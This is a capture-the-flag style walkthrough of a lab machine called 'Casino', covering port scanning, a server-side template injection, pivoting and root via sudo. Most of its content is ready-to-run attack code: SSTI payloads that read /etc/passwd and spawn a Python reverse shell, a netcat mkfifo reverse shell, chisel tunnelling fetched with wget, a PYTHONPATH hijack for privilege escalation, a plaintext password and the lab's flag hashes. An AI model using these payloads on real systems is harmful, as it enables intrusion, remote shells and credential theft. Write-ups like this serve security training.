


# Casino

**IP Address:** 172.31.1.7

## Enumeration
### Open Ports
| Port | State | Service | Version |
|------|-------|---------|---------|
| 22/tcp | open | ssh | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| 80/tcp | open | http | Apache httpd 2.4.29 |
| 9000/tcp | filtered | cslistener |   |

## Exploitation
### Exploit Details (Server Side Template Injection / Command Execution)
* **Name** - Server Side Template Injection / Command Execution
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

1. The web application is vulnerable to server side template injection. We can verify this by entering the below command into the search box of the main website. 

Commands
```
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```


2. We can use this to leverage a reverse shell with the below code. 

Commands
```
{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.0.37\",53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'").read().zfill(417)}}
```


3. Extract the index.casino.csl.zip file found in the /var/www/webApp/ directory and we can find some credentials. 

Commands
```
cp index.casino.csl.zip /tmp
cd /tmp
unzip index.casino.csl.zip
grep --color=auto -R 'pass' casino.csl\ -\ final/
```


4. Setup chisel to forward port 9000 to our attach box. 

Commands
```
chisel server -p 9050 --reverse
wget http://$lhost/chisel
chmod 777 chisel
./chisel client 10.10.0.37:9050 R:9000:127.0.0.1:9000
```




5. Navigate to the Administrator portal located on the forwarded port (http://127.0.0.1:9000/admin) and execute a reverse shell.

Commands
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.37 443 >/tmp/f
whoami
cat /home/grey/access.txt
```




## Privilege Escalation
### Exploit Details (SUDO)
* **Name** - SUDO
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

1. adminPanel folder inside the user grey's home directory is a git repository we can find credentials located here for the carla acccount. 

Commands
```
git show
```


2. Use su to change to the carla account and we can see she has permission to use SUDO to set the environment for the /opt/updateBTCPrice.py python script. 

Commands
```
su carla
>F73SzS36>V$tJmc
sudo -l
```


3. Change to the temp directory, the create a reverse shell as datetime.py using the echo command below. Then run the sudo command with the path variable to set so that it runs our revershell script. 

Commands
```bash
cd /tmp
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.37",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > datetime.py
sudo PYTHONPATH=/tmp /opt/updateBTCPrice.py
```


4. Catch the reverse shell and read the system.txt file. 

Commands
```bash
whoami
cat /root/system.txt
```


## Loot
```
access.txt
69ee5d271b39d6aa19849dd8cbf516f3
system.txt
eea92150cdc75ba784e8d368b0ba36e0
```